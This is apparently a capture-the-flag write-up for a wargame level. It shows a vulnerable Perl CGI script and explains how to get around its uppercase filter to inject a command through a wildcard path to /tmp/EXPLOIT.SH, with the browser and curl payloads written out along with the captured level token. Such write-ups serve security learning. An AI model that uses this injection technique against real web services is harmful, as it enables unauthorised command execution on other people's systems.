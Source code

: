 Contents of level12.pl :

#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

The server on port 4646 accepts 2 parameters

The regex tr/a-z/A-Z/ transforms alpha chars to uppercase
The other regex s/\s.*// removes all space chars

to get the exploit working we have to use uppercase only => call a script named with uppercase only => use wildcard * to exploit filepath to the script because /tmp can't be written with lowercase characters

/!\ give execution permission for the script with ```chmod +x /tmp/EXPLOIT.SH```

in the browser : http://192.168.56.2:4646/?x=$(/*/EXPLOIT.SH)
or with curl : curl localhost:4646?x='`/*/EXPLOIT.SH`'

we get the token : g1qKMiRpXf53AWhDaU7FEkczr

```su level13```


